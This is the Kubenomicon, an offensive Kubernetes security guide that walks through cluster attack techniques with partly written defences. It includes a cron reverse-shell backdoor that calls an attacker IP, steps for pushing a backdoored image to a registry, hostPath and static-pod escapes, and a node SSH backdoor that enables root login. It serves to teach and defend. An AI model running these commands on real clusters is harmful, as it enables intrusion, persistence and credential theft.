




What is The Kubenomicon?

The Kubenomicon was born of a desire to understand more about Kubernetes from an offensive perspective. I found many great resources to aid in my journey, but I quickly realized:
- I will never be able to solely document every offensive and defensive Kubernetes technique on my own.
- Things in the Kubernetes world move really fast and there are constantly new attack surfaces to explore. My solution to this is to start the Kubenomicon -- a place where offensive security techniques and how to defend against them can easily be documented via pull requests to the Kubenomicon GitHub.
This project was heavily inspired by the Kubernetes Threat Matrix from Microsoft which is a great starting point as it provides a framework to help understand some of the concepts in a MITRE ATTACK style framework. The Microsoft Threat Matrix was explicitly not designed to be a playbook offensive for security professionals and thus it lacks the details necessary to actually exploit (and remediate) each attack in Kubernetes cluster.
The Kubenomicon Threat Matrix
Prior work
I am far from the first person to come up with the idea to document this information. Many great projects exist that take a similar approach to this. Most notably what inspired this project was the Microsoft Kubernetes Threat Matrix. Additionally, late into putting this project together I discovered this amazing Threat matrix from RedGuard. Some other projects that served as inspiration for this include:
Initial access
Initial Access into a Kubernetes cluster is usually the most difficult stage and for the most part, is not specific to Kubernetes and relies on one of the following:
- Finding a weakness in an application being hosted in a Kubernetes cluster
- Supply chain compromise
- Abusing Developer Resources
Using Cloud Credentials
Gaining access to the web application interface of managed Kubernetes services such as GKE, AKS, or EKS is extremely powerful. It should go without saying that if you're able to login to the management interface of a cloud provider, you can access the cluster and cause chaos. Typically this would be done via phishing.

Defending
Pull requests needed ❤️
Compromised image In registry
A compromised container image in a trusted registry can be used to gain initial access to a Kubernetes cluster if you're able to push images to it. This attack path is fundamentally the same concept as Persistence -> Backdoor_container.
A compromised image in a container registry is the logical next step to Persistence -> Backdoor_container. If an attacker is able to upload or tamper with the "trusted" images in a registry such as Harbor, they can fully control the environment the application is operating within. This is analogous downloading an ubuntu ISO that an attacker had tampered with and using it as your base operating system.

Attacking
This attack picks up where Persistence -> Backdoor Container left off. The prerequisites for this attack are:
- You are able to upload images to a container registry.
- You know the container image name that will be pulled
- You have created a backdoor image (see Persistence -> Backdoor Container)
First, lets login to the container registry using docker login <registry_url> -u <username>. Next, ensure that your backdoored image is available by running docker image ls | grep <image_name>.
Now we have to tag the image. docker tag <image_to_tag> <registry_url>/REPOSITORY/IMAGE_NAME
Finally, push the backdoored image by running docker push <registry_url>/REPOSITORY/IMAGE_NAME.

After that, the image will be pushed to the container registry. Assuming the image is pulled by Kubernetes, your backdoored image will be deployed.

Defending
Pull requests needed ❤️
Kubeconfig file
The Kubeconfig file is a configuration file that contains all the information kubectl needs to access the cluster. This includes information such as where the API server is, which credentials to use to interact with it, default namespaces, etc. You can change which Kubeconfig file you're using by setting the $KUBECONFIG environment variable.
Should an attacker gain access to a Kubeconfig file, they can instruct Kubectl to use it to access the cluster. export KUBECONFIG=/path/to/kubeconfig. Note that this file is typically just called config and stored in ~/.kube/config but these can be left in many different places so it's worth hunting for them.

The following is an example of what a Kubeconfig YAML file looks like:
apiVersion: v1
# Holds information on how to access the cluster
clusters:
- cluster:
# The API server's public key. Does not need to be kept secret
certificate-authority-data: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSURCakNDQWU2Z0F3SUJBZ0lCQVRBTkJna3Foa2lHOXcwQkFRc0ZBREFWTVJNd0VRWURWUVFERXdwdGFXNXAKYTNWaVpVTkJNQjRYRFRJek1EY3lOREU0TXpJMU1Gb1hEVE16TURjeU1qRTRNekkxTUZvd0ZURVRNQkVHQTFVRQpBeE1LYldsdWFXdDFZbVZEUVRDQ0FTSXdEUVlKS29aSWh2Y05BUUVCQlFBRGdnRVBBRENDQVFvQ2dnRUJBTUFECitnZDVoUEk5VmorNFk3Q25ZcDRDTnZBVkpGNGE5eWVrYUhkbWJaN0Mzby8zZ0xNT29CWDFEdktMbFh0WVFxaXcKUEpuYk1LMFJFNGI2QzM5K3laN3V4aTdNZGllc2xHYmdPRitLNnMvb2xBOExHdnk4R3V6Zmk3T1RlaFRacFF6VAoraGFzaFlLNFRJYU5KNGtTOUN0dFd6VzJVa243cHNxNWpFa0l0eFpGdnpWblhwYVNPQVZVOEJRSm1rMzhQUXIxCm5nVzdJbkdiNFNQcGZOWVlrVURUOEVzWG10eElJdWU5ZmJ2aThPM0E1eTNFSVB0ZkJDdk45M3paUFRIK0RyVTkKRUduYkhqWlVlQ3hGa1E1QmtMMjVjcTh2UVoyZWhtb3d6a1Z1dVM3SGUyZTFUOHNuc01uanpwaGtoV2NMMDRiWApPTHhmYy8wRER0VVJEV0pYdnRNQ0F3RUFBYU5oTUY4d0RnWURWUjBQQVFIL0JBUURBZ0trTUIwR0ExVWRKUVFXCk1CUUdDQ3NHQVFVRkJ3TUNCZ2dyQmdFRkJRY0RBVEFQQmdOVkhSTUJBZjhFQlRBREFRSC9NQjBHQTFVZERnUVcKQkJTTDQyYkEydVdsWnVzSHFOYUdqd0RwM21CRHNqQU5CZ2txaGtpRzl3MEJBUXNGQUFPQ0FRRUFDVEZjc2FaaAp4bjVNZTI2bkN1VVNjSDEzbFhKSjFSOXJPLzNXRDE0cUZrMERET2ZMVkZBdkR1L0xWU2ZIVkF5N0dSYWJCOWNUCmVXNndDV3JhUy9aczFDYXVMOG8vTVdoWG9VWUtHc0IxNVE0R21VUzBLMXV4L2ZNUUlZczVUNUJmU0UrLzBsQ0EKL2hINWRVaDMraklSa1ZhVVZBbDFxL3VQR0dIRXlqWGNMdlp5TGVmSENTMlJWbFU5SS9xb2FkQTd2ZE5US3VTNwpYOUZhZjdNNUxMYXRzNldraWRXd3BrS3FDQ3Z2YlhNck85SmFobXhrbFZvamhYYUZTQkNuSWpaQUIzQ2JTSWNBClpRWFNBTVlaTWZBSUNEYTF3eW1jM1dXUUZQVlZ0NUpubHd3WWx3TlVpTk9GdUJqZUtMMTUvSDZyS3VRdktHbkcKMmdVRUphUFV4WS93U0E9PQotLS0tLUVORCBDRVJUSUZJQ0FURS0tLS0tCg==
# API Server Address
server: https://192.168.59.101:8443
name: dev-cluster
- cluster:
certificate-authority: /home/smores/.minikube/ca.crt
extensions:
- extension:
last-update: Mon, 18 Mar 2024 14:44:21 EDT
provider: minikube.sigs.k8s.io
version: v1.30.1
name: cluster_info
server: https://192.168.49.2:8443
name: minikube
# Which Cluster, user, and namespace to access by default
contexts:
- context:
cluster: minikube
extensions:
- extension:
last-update: Mon, 18 Mar 2024 14:44:21 EDT
provider: minikube.sigs.k8s.io
version: v1.30.1
name: context_info
namespace: default
user: minikube
name: minikube
current-context: minikube
kind: Config
preferences: {}
users:
# Which user to authenticate to the cluster as
- name: minikube
user:
# Contains a cert for the user signed by the kubernetes CA. This IS sensitive. Sometimes a token is used instead (such as service accounts)
client-certificate: /home/smores/.minikube/profiles/minikube/client.crt
client-key: /home/smores/.minikube/profiles/minikube/client.key
You can utilize Dredge to search for Kubeconfig files.

Switching Contexts
Kubeconfig files allow you to set multiple "contexts". Each context may have different RBAC permissions. In the following example, the admin user has full admin permissions as denoted by the kubectl auth can-i --list | head command displaying all RBAC verbs for all resources (piped to head for brevity).
Upon switching to the dev context using kubectl config use-context dev, and re-running kubectl auth can-i --list | head, the RBAC permissions for the dev context are displayed which are far less permissive.

Defending
Pull requests needed ❤️
Application Vulnerability
The "code security" is the code of the application being deployed into the cluster. Fundamentally this is not really a "Kubernetes" specific attack path. Attacking this layer is generally performing a web application penetration test in an application hosted in a Kubernetes cluster. From this layer, you're looking to identify any sort of web application vulnerability that will allow you to get a shell on within the application (or possibly SSRF).
Typically initial access into a Kubernetes cluster from an external perspective relies on some sort of injection attack that allows an attacker to get a foothold. Getting a shell in an web application running in a Kubernetes cluster will drop you inside the Pod running the container the application is hosted in.
Defending
All of the standard application security best practices should be followed to ensure your applications are not vulnerable to these exploits in the first place. This field is generally referred to as application security. At a very high level, ensure that applications are not vulnerable to common attacks outline in the OWASP Top 10.
- Pre-commit security
- Perform continuous threat-modeling
- Enforce Peer code reviews
- IDE security plugins
- Pre-commit hooks
- Commit Security
- Perform static application security testing (SAST)
- Perform security unit testing
- Understand supply chain/dependency risks
- Pre-Production
- Perform web application security testing
Exposed Sensitive interfaces
Some services deployed in a kubernetes cluster are meant to only be accessed by Kubenetes admins. Having them exposed and/or having weak credentials on them can allow an attacker to access them and gain controol over them. Depending on the service, this can allow the attacker to do many different things. Microsoft calls out the following as sensitive interfaces they've seen exploited: Apache NiFi, Kubeflow, Argo Workflows, Weave Scope, and the Kubernetes dashboard.
This is essentially a management interface for kubernetes.

Defending
Ensure the sensitive interfaces are not accessible by those who do not need them. A simple way to check is by running kubectl get pods -A and look for the dashboard.

Pull requests needed ❤️
SSH server running inside container
SSH Server running inside container
You're not really supposed to run ssh inside of a container but it can easily be done. This is not Kubernetes specific. Attack path here is getting creds to the SSH server and sshing in.
Defense
Don't run SSH servers inside of containers and if you do make sure they're locked down just like any other SSH server should be. Some information on kubectl vs ssh
Defending
Pull requests needed ❤️
Execution
The execution tactic tracks how an attacker can run code inside of a cluster.
Exec Inside Container
The ability to "exec" into a container on the cluster. This is a very powerful privilege that allows you to run arbitrary commands within a container. You can ask the API server if you're allowed to exec into pods with kubectl by running: kubectl auth can-i create pods/exec. If you're allowed to exec into pods, the response will be yes. See RBAC for more information
Exec-ing into a pod is simple: kubectl exec <pod_name> -- <command_to_run>. There are a few things to know.
- The binary you're running must exist in the container. Containers that have been minimized using a tool such as SlimToolkit will only have binaries that are needed for the application to run. This can be frustrating for an attacker as you may need to bring any tooling you need to execute. If you're attacking a pod that doesn't seem to have anything inside it, you can try utilizing shell builtins to execute some commands.

- If you can exec into a pod, you can upload files to a pod as well using
kubectl cp <local_file> <podname>:<location_in_pod>
- When Exec-ing into a pod, you will by default exec into the first container listed in the pod manifest . If there are multiple containers in a pod you can list them using
kubectl get pods <pod_name> -o jsonpath='{.spec.containers[*].name}'which will output the names of each container. Once you have the name of a container you can target it using kubectl with the-cflag:kubectl exec -it <pod_name> -c <container_name> -- sh
Note. This is an instance where I've diverged from Microsoft's Threat Matrix. I've combined the Exec into container and bash/cmd inside container techniques into one.
Defending
Pull requests needed ❤️
New container
Launching a new container in a kubernetes cluster is an extermely powerful permission. Launching a new container can be used to attack other pods in the cluster in a few different ways. If you're allowed to specify your own pod manifest, you have lots of options for how to escalate privielges and move laterally into other namespaces. Additionally, any secrets in a namespace that allows for pods to be created can be compromised as they can be mounted into the pods in cleartext using Credential Access-> Container Service Account.
The following manifest can be deployed into the cluster using kubectl apply -f <manfiest_name>.yaml
# Mounts the secret db-user-pass into /secrets into the pod
apiVersion: v1
kind: Pod
metadata:
name: mypod
spec:
containers:
- name: mypod
image: nginx
volumeMounts:
- name: foo
mountPath: "/secrets"
readOnly: true
volumes:
- name: foo
secret:
secretName: db-user-pass
After seeing the manifest, it's obvious that the secerts are mounted in the /secrets directory. The secrets will be created in files with the same name of the fields within the secret.

Secrets As Environment Variables
Additionally, secrets can be mounted as environment variables that can be seen by dumping environment variables in a pod. The following manifest puts the kubernetes secrets username and db-user-pass into environment varaibles SECRET_USERNAME and SECRET_PASSWORD, respectively.
# Mounts the secret db-user-pass -> username
# into the SECRET_USERNAME environment variable
# and password into SECRET_PASSWORD
apiVersion: v1
kind: Pod
metadata:
name: secret-pod
spec:
containers:
- name: mycontainer
image: nginx
env:
- name: SECRET_USERNAME
valueFrom:
secretKeyRef:
name: db-user-pass
key: username
- name: SECRET_PASSWORD
valueFrom:
secretKeyRef:
name: db-user-pass
key: password
restartPolicy: Never
After the manifest has been applied, the environment variables are accessible inside the pod to an attacker using the env or export commands.

Defending
Defending
Use RBAC to ensure that pods cannot be created unless absolutely necessary. Secrets are scoped to namespaces so ensuring namespaces are properly used is important.
Pull requests needed ❤️
Application exploit (RCE) 🔗
See Initial access -> Application Vulnerability
Sidecar injection
Pods are comproised of one or more containers. A sidecar container is a container that can be launched in a pod with other containers. This is commonly used for 3rd party programs that do things such as collect logs or configure network proxies.
In the following scenario there is an nginx server called main-application. The main application (in this case nginx) will eventually output some logs to /var/log/nginx. The problem is that we don't have a way to collect those logs to send to something such as a SIEM. A solution to this would be to mount the path /var/log/nginx and then launch a side car container that is responsible for collecting the logs from /var/log/nginx. In this example, a simple busybox container is started that prints the log files to the screen every 30 seconds. This is a contrived example, but the sidecar could do any number of things.
# Modified from https://www.airplane.dev/blog/kubernetes-sidecar-container
apiVersion: v1
kind: Pod
metadata:
name: simple-webapp
labels:
app: webapp
spec:
containers:
- name: main-application
image: nginx
volumeMounts:
- name: shared-logs
mountPath: /var/log/nginx
- name: sidecar-container
image: busybox
command: ["sh","-c","while true; do cat /var/log/nginx/access.log; sleep 30; done"]
volumeMounts:
- name: shared-logs
mountPath: /var/log/nginx
volumes:
- name: shared-logs
emptyDir: {}
---
# Service Configuration
apiVersion: v1
kind: Service
metadata:
name: simple-webapp
labels:
run: simple-webapp
spec:
ports:
- port: 80
protocol: TCP
selector:
app: webapp
type: NodePort
It's simple to tell how many pods are in a container by seeing the READY column.

If there are multiple containers in a pod you can list them using kubectl get pods <pod_name> -o jsonpath='{.spec.containers[*].name}' which will output the names. Once you have the name of a container you can specifiy it using kubectl with the -c flag. kubectl exec -it <pod_name> -c <container_name> -- sh

Defending
From Microsoft:
- Adhear to least-privielge principles
- Restrict over permissive containers
- Gate images deployed to kubernetes clusters
Pull requests needed ❤️
Persistence
The persistence tactic lists out some of the common ways that attackers can utilize their access to a cluster to make it easy for they to re-connect to it in case they lose their initial access.
- Backdoor Container
- Writable hostPath mount
- Kubernetes Cronjob
- Malicious Admission Controller
- Container Service Account
- Static Pods
Backdoor Container
Fundamentally this is more of a container security issue, not specifically related to Kubernetes. If you're the images you're building applications into are compromised then your cluster can be compromised as well. This would be like if you downloaded an ubuntu ISO that contained malware before you even installed it.
Executing the attack
Lets create a malicious image with a simple reverse shell backdoor to demonstrate how easy this is. When would we do this? Imagine we have identified that we can upload our own images to a company's container registry such as harbor. We're going to take advantage of that by uploading our own image, overwriting the "known good" image that is currently being used. After doing some recon we've identified that the target is pulling a container image called "prod-app-1" to deploy their application into.
First, we must backdoor a container. To do so we're going to use the ubuntu image as our starting point. To download and launch the ubuntu docker image, run docker run -it ubuntu
A quick note, you must be in the
dockergroup to run docker withoutsudo. To do so, runsudo groupadd docker,sudo gpasswd -a $USER docker, then runnewgrp docker
Next, we're going to need to install cron into our container, add the backdoor, and then ensure cron is running.
# Update the repos and install cron
apt update -y &> /dev/null && apt install -y cron &>/dev/null
apt update && apt install cron
# Create a backdoor using cron.
# Modified from this gist https://gist.github.com/hoefler02/2ca8166c167f147c8fb076b48eb7cb47
(touch .tab ; echo "* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" >> .tab ; crontab .tab ; rm .tab) > /dev/null 2>&1
# Ensure cron is running
cron

Next we need to save our container as an "image". This saves our backdoored ubuntu container as an image called prod-app-1 that can be deployed without our malicious configuration.
# Stage the current container into an image
sudo docker commit <container_id> <image_name>
# Save the image as a .tar file for transport to target
sudo docker save <image_name> > <image_name>.tar
# If you want to load the image as a container
sudo docker image load < <image_name>.tar

Creating malicious images that are utilized as a "base" container is a common attack vector.
Defending against the attack
Defending
Defending the container security layer is all about ensuring that the environment your application is running inside of is not able to be escaped should an attacker somehow find their way in through a vulnerability found in the code security layer such as command injection.
There are many different ways you can harden your container, however, it should be noted that conventional wisdom states that containers should not be considered a strong security boundary. Even so, hardening your containers is a critical step in implementing defense in depth. Container security done right can greatly increase the time and effort an attacker needs to compromise a cluster. Here are some high level recommendations for ensuring the container security layer is hardened
- Pre-commit hooks: Install and configure pre-commit hooks and code editor extensions to enforce best practices for developers creating containers. One example is using trufflehog to check for secrets before they're committed to code.
- SAST Scanning: Running security scanning tooling such as tooling such as kics, hadolint, checkov, etc against Dockerfiles can help identify misconfigurations in the container images.
- Container Registries: Container registries act as a repository to store container images in after they've been built. Container registries allow you to build an inventory of approved base images that are approved in policy to use. One of the most common base images is Alpine Linux, which is an ultra minimal Linux environment. Images can be validated using conftest. A popular container registry to sign and store these images is harbor as it is open source, and allows for scanning of images for vulnerabilities which brings us to the next recommendation.
- Image Scanning: Scan container images for known vulnerabilities using tools such as trivy, Clair, or Dagda. This should tell you if an application or dependency in your container has a known CVE associated with it. It does not identify new vulnerabilities in your applications.
- Container Signing: Cryptographically signing containers with a tool such as cosign will allow you to validate that the container image you're deploying is the same image you built and hasn't been infected with malware. (Unless the malware was introduced before you signed it...)
- Secrets: When building docker images, avoid hard-coding secrets into Dockerfiles and environment variables by using the
--secretsand--mountflag. This will allow commands in the docker container to pass in secrets from a file and the secrets will not persist in the final container image. - Implement least privilege: Containers should be minimized as much as possible to remove any unneeded software. It's not uncommon for hardened containers to only have a few binaries installed that make doing anything besides running the intended application a huge pain. This can be done by utilizing multistage builds that build software in the first image, then copy the freshly built binaries into a new container. Operating in this way means the final container image does not have the build tools inside the final container, further minimizing the image.
- Monitoring: Monitoring your containers for suspicious activity can be done by utilizing tools such as Falco. While this can generate alerts, it's important that alerts are actionable and monitored. This is a great overview of using Falco
Writable hostPath mount
A hostpath mount is a directory or file from the host that is mounted into the pod. If an attacker is able to create a new container in the cluster, they may be able to mount the node's file system which can be exploited in many ways.
Kubernetes Volumes
By design, storage within pods do not persist on reboot. Any artifacts saved to a container that are not stored in a volume will be removed when a pod is restarted. Persistent volumes are a way to store data in a pod and have it persist even if the pod is restarted. There are a few different types of volumes but the most interesting one from an attacker perspective is a hostPath volume.
A hostpath volume mounts a file or directory from the host node's filesystem into a pod. Most of the time there is no real reason for this to be done, but it can be an easy way to make things "just work".
According to the documentation, there are a few hostPath types you can pass to the manfest when creating a hostpath:
"": Empty string (default) is for backward compatibility, which means that no checks will be performed before mounting the hostPath volume.DirectoryOrCreate: If nothing exists at the given path, an empty directory will be created there as needed with permission set to 0755, having the same group and ownership with Kubelet.Directory: A directory must exist at the given pathFileOrCreate: If nothing exists at the given path, an empty file will be created there as needed with permission set to 0644, having the same group and ownership with Kubelet.File: A file must exist at the given pathSocket: A UNIX socket must exist at the given pathCharDevice: (Linux nodes only) A character device must exist at the given pathBlockDevice: (Linux nodes only) A block device must exist at the given path
Example Attack
Lets imagine that we have somehow discovered that there is a manifest that is utilizing a hostPath mount to mount the root directory(/) of the node into a pod.
The manifest may look simliar to below.
# Dangerous
apiVersion: v1
kind: Pod
metadata:
name: vuln-nginx
namespace: dmz
spec:
containers:
- name: vuln-nginx
image: nginx
volumeMounts:
- name: hostmount
mountPath: /nodeFS
volumes:
into the pod"
- name: hostmount
hostPath:
path: /
Lets assume that at some point a kubernetes admin made a dmz namespace and applied this vulnerable manifest to it.

As an attacker we either are lucky enough to find ourselves already in the vuln-nginx pod, or we exec into the pod. Upon looking at the file system, we can see that the nodeFS directory contains the contents of the filesystem of the node running the pod. We can exploit this by utilzing Persistence -> Static pod to spawn a pod outside of the dmz namespace.

Going back to the cluster, we can query the API server for pods in the production namespace by running kubectl get pods -n production. We can see that the yaml written to /nodeFS/etc/kubernetes/manifests/jump2prod.yaml was picked up by the kubelet and launched.

Indeed, it seems the jump2prod container was created. Note that the node name was appended to our pod as discussed previously. This is great for jumping into another namespace, but from this FINISH
Attack 2
Lets assume the following manifest was used to deploy an nginx server into the DMZ. Due to the houstmount giving us access to /etc/kubernetes/ path, we will be able to take over the cluster.
apiVersion: v1
kind: Pod
metadata:
name: vuln-nginx
namespace: dmz
spec:
containers:
- name: vuln-nginx
image: nginx
volumeMounts:
- name: hostmount
mountPath: /goodies
volumes:
- name: hostmount
hostPath:
path: /etc/kubernetes/
In this scenario, the path /etc/kubernetes on the node was mounted into the pod under /goodies. Looking at this directory, we can see that there is indeed some configuration files for the kubelet as well as the manifests directory.

With this information, we can probably create a Persistence -> Static Pod. In order to exploit this, we are going to create a static pod with an additional hostmount, but this time we are going to mount the root of the node / into the directory /pwnd. To facilitate this we will create a new manifest that will perform these mounts in a pod called ohnode
apiVersion: v1
kind: Pod
metadata:
name: ohnode
namespace: kube-system
spec:
containers:
- name: ohnode
image: nginx
volumeMounts:
- name: hostmount
mountPath: /pwnd
volumes:
- name: hostmount
hostPath:
path: /
To create the static pod, we simply place this manifest into the /etc/kubernetes/manifests directory and the kubelet will start the pod. Looks like our pod was created in the kube-system namespace.

Lets exec into the pod. We can see that /pwnd exists and upon moving into it we see the / of the node's file system. To make things a little simpler, chroot /pwnd to make sure our we don't accidentially mess up our paths and put something in the wrong directory on the pod's filesystem.
Finally, lets backdoor the node with cron so that we can SSH to it. In this example, we will assume the node has cron installed and the cron service is running(by default minikube does not). To backdoor the node and ensure SSH is running, run the following commands
# Place our backdoor script into /tmp/ssh.sh
# This will be ran by cron
cat << EOF > /tmp/ssh.sh
apt update ; apt install openssh-server -y ; mkdir -p /var/run/sshd && sed -i 's/\#PermitRootLogin prohibit-password/PermitRootLogin yes/' /etc/ssh/sshd_config && sed 's@session\s*required\s*pam_loginuid.so@session optional pam_loginuid.so@g' -i /etc/pam.d/sshd ; mkdir -p ~/.ssh && touch authorized_keys ; echo "YOUR PUBLIC KEY HERE" >> ~/.ssh/authorized_keys ; /usr/sbin/service ssh restart
# Then type EOF and press enter
# Ensure the script has execute permissions
chmod +x /tmp/ssh.sh
# This will keep adding your SSH key
# you could change `>>` to `>` but that will overwrite other keys in there.
echo "* * * * * root cd /tmp && sh ssh.sh" >> /etc/cron.d/ssh

Now, assuming cron is running on the node, wait about a minue and you should see that your public key has been added to /root/.ssh/authorized_keys!
Now all you need to do is ssh into the node (assuming there is no firewalls in the way): ssh -i <key> root@<node>

Defending
- From microsoft:
- Restrict over permissive containers using something such as [[admission controller]]s
- Restrict file and directory permissions by ensuring mounts are read only
- Restrict containers using linux security modules such as [[AppArmor]] or [[SELinux]]
- Ensure that pods meet defined [[pod security standards]]. Baseline or restricted will stop volume mounts.
Pull requests needed ❤️
Kubernetes cronjob
Kubernetes cronjobs are fundamentally the same as linux cronjobs that can be deployed with Kubernetes manifests. They perform actions on a schedule denoted by the contab syntax. Crontab Guru is a great resource for getting the cron schedule you want.
Like every other object in Kubernetes, you declare your cronjob in a manifest and then submit it to the API server using kubectl apply -f <cronjob_name>.yaml. When creating a cronjob, you must specify what container image you want your cronjob to run inside of.
# Modified From https://kubernetes.io/docs/concepts/workloads/controllers/cron-jobs/
apiVersion: batch/v1
kind: CronJob
metadata:
name: anacronda
spec:
schedule: "* * * * *" # This means run every 60 seconds
jobTemplate:
spec:
template:
spec:
containers:
- name: anacronda
image: busybox:1.28
imagePullPolicy: IfNotPresent
command:
- /bin/sh
- -c
- date; echo Hello from the Kubernetes cluster
restartPolicy: OnFailure

Defending
Pull requests needed ❤️
Malicious Admission Controller
Admission controllers are components that can intercept requests to the API server and make changes to (or validate) manifests. An attacker can intercept and modify the manifests before they are deployed into the cluster. The following code snippet is an example:
// Example from: https://medium.com/ovni/writing-a-very-basic-kubernetes-mutating-admission-webhook-398dbbcb63ec
p := []map[string]string{}for i := range pod.Spec.Containers { patch := map[string]string{
"op": "replace",
"path": fmt.Sprintf("/spec/containers/%d/image", i),
"value": "debian",
}
p = append(p, patch)
}
// parse the []map into JSON
resp.Patch, err = json.Marshal(p)
Defending
From microsoft: Adhere to least privielge princples by restricting permissions to deploy or modify MutatingAdmissionWebhook and ValidatingAdmissionWebhook objects.
Pull requests needed ❤️
Container Service Account
See Credential Access -> Container Service Account
Static pods in Kubernetes are interesting from an attacker perspective because the are created without needing the API server. A static pod is instead managed by the kubelet service running on a node.
With that being said, if a static pod is created, the kubelet will try to create a mirror pod on the API server, but the pod cannot be controlled by the API server. Static pods have the name of the node they're running on appended to the end of them. By default, the kubelet watches the directory /etc/kubernetes/manifests for new manifests. If an attacker is able to somehow place a manifest inside this directory, it will be run (although sometimes you may need to restart the kubelet).
Note: This bypassess admission controllers
Static pods cannot be used to do things such as mount secrets.
apiVersion: v1
kind: Pod
metadata:
name: vuln-nginx
namespace: dmz
spec:
containers:
- name: vuln-nginx
image: nginx
volumeMounts:
- name: hostmount
mountPath: /goodies
volumes:
- name: hostmount
hostPath:
path: /etc/kubernetes/


Defending
Pull requests needed ❤️
Privilege escalation
The privilege escalation technique is a list of ways that attackers can escalate from their current level of access to a higher level of access. This typically means going from a Pod to taking over a Node or Cluster but can also be escalating from a pod with little permissions to one with higher permissions. Additionally, if a cluster is deployed in a cloud environment, privilege escalation can also include accessing other resources in the cloud environment.
Privileged container
Privileged containers represent a very dangerous permission that can be applied in a pod manifest and should almost never be allowed. Privileged pods are set under the securityContext. Privileged containers essentially share the same resources as the host node and do not offer any security boundary normally provided by a container. Running a privileged pod dissolves nearly all isolation between the container and the host node.
apiVersion: v1
kind: Pod
metadata:
name: priv-pod
spec:
hostNetwork: true
containers:
- name: priv-pod
image: nginx
securityContext:
privileged: true
Defending
From microsoft:
- Restrict over permissive containers: Block privileged containers using admission controllers
